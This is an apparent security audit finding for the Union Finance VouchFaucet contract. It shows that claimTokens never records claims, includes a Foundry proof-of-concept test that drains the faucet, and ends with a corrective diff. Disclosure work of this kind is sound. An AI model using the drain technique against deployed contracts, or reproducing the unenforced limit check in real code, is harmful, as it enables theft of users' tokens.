Glorious Licorice Buffalo

High

# VouchFaucet can be immediately drained by anyone

## Summary

The `claimTokens` function in the VouchFaucet contract fails to properly enforce the `maxClaimable` limit because it does not update the value in the `claimedTokens` mapping. This allows any address to claim an arbitrary amount of any token, potentially draining the entire token balance of the contract, in a single transaction or through multiple transactions.

## Vulnerability Detail

Included below is the relevant code from the [VouchFaucet](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/7ffe43f68a1b8e8de1dfd9de5a4d89c90fd6f710/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93-L97) followed by key insights:

```solidity
    /// @notice Token address to msg sender to claimed amount
    mapping(address => mapping(address => uint256)) public claimedTokens;

    /// @notice Token address to max claimable amount
    mapping(address => uint256) public maxClaimable;

    /// @notice Claim tokens from this contract
    function claimTokens(address token, uint256 amount) external {
        require(claimedTokens[token][msg.sender] <= maxClaimable[token], "amount>max");
        IERC20(token).transfer(msg.sender, amount);
        emit TokensClaimed(msg.sender, token, amount);
    }

    /// @notice Transfer ERC20 tokens
    function transferERC20(address token, address to, uint256 amount) external onlyOwner {
        IERC20(token).transfer(to, amount);
    }
```
- The claimedTokens mapping is never updated. It will always return 0 when looking up how much of any token has been claimed by any address. 

- The maxClaimable mapping will by default return 0 for any token the contract could ever receive. The contract owner can use the setMaxClaimable function but is only able to set the claimable amount for any token to 0 or greater.

- The transferERC20 function is protected by the onlyOwner modifier signaling the desire to restrict access to this type of transfer. 

- Currently no matter what the admin does the require statement in claimTokens will always pass because it evaluates an expression that will always effectively be:   `require(0 <= [uint256], "amount>max");` This makes claimTokens effectively equivalent to an unrestricted version of transferERC20.

### Proof of Concept

The proof of concept below imports and utilizes [the protcols own TestWrapper](https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/main/union-v2-contracts/test/foundry/TestWrapper.sol) for simplicity in setting up a realistic testing environment.

The test case demonstrates that despite the VouchFaucet containing mechanisms that clearly intend to disallow the faucet from being easily drained by a single address, such an outcome is possible with no effort. 


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.8.16;

import {Test, console} from "forge-std/Test.sol";
import {TestWrapper} from "../TestWrapper.sol";
import {VouchFaucet} from "../../src/contracts/peripheral/VouchFaucet.sol";

import {IERC20} from "@openzeppelin/token/ERC20/IERC20.sol";

contract TestVouchFaucet is TestWrapper {
    VouchFaucet public vouchFaucet;
    uint256 public TRUST_AMOUNT = 10 * UNIT;

    function setUp() public {
        deployMocks();
        vouchFaucet = new VouchFaucet(address(userManagerMock), TRUST_AMOUNT);
    }

    function testDrainVouchFaucet() public {
        address bob = address(1234);

        erc20Mock.mint(address(vouchFaucet), 3 * UNIT);

        vouchFaucet.setMaxClaimable(address(erc20Mock), 1 * UNIT);
        assertEq(vouchFaucet.maxClaimable(address(erc20Mock)), 1 * UNIT);

        // Bob can claim any number of tokens despite maxClaimable set to 1 Unit
        vm.prank(bob);
        vouchFaucet.claimTokens(address(erc20Mock), 3 * UNIT);

        assertEq(IERC20(erc20Mock).balanceOf(bob), 3 * UNIT);
    }

}
```

## Impact

Without the intended enforcement provided by the require statement the claimTokens function provides unrestricted external access to an ERC20 transfer function. This is clearly not intended as demonstrated by the presence of the onlyOwner on the similar transferERC20 function. The result is that any caller can immediately transfer out any amount of any token.

This oversight completely undermines the token distribution model of the faucet. If deployed without modification it would render the contract useless for the intended purpose due to its inability to securely hold any amount of any token.  

## Code Snippet

https://github.com/sherlock-audit/2024-06-union-finance-update-2/blob/7ffe43f68a1b8e8de1dfd9de5a4d89c90fd6f710/union-v2-contracts/contracts/peripheral/VouchFaucet.sol#L93-L97

## Tool used

Manual Review

## Recommendation

The following correction ensures that any individual address can't claim more than the set claimable amount, maintaining the intended token distribution model of the faucet.

```diff

File: VouchFaucet.sol

    function claimTokens(address token, uint256 amount) external {
-        require(claimedTokens[token][msg.sender] <= maxClaimable[token], "amount>max");
+        uint256 newTotal = claimedTokens[token][msg.sender] + amount;
+        require(newTotal <= maxClaimable[token], "Exceeds max claimable amount");

+        claimedTokens[token][msg.sender] = newTotal;
        IERC20(token).transfer(msg.sender, amount);

        emit TokensClaimed(msg.sender, token, amount);
    }
```

The following additional recommendations should be considered. The suggestions won't impact legitimate users, but raise the effort required for an malicious actor to disrupt the intended functioning of the contract.

1. Ensure the claimedTokens mapping is updated before the transfer to avoid reentrancy risk, OpenZeppelin ReentrancyGuard could also be considered. 

1. Consider adding an admin adjustable global cap on total tokens that can be claimed across all addresses to help control faucet outflows. 

3. Consider implementing a time-based cooldown mechanism to limit the frequency of claims per address.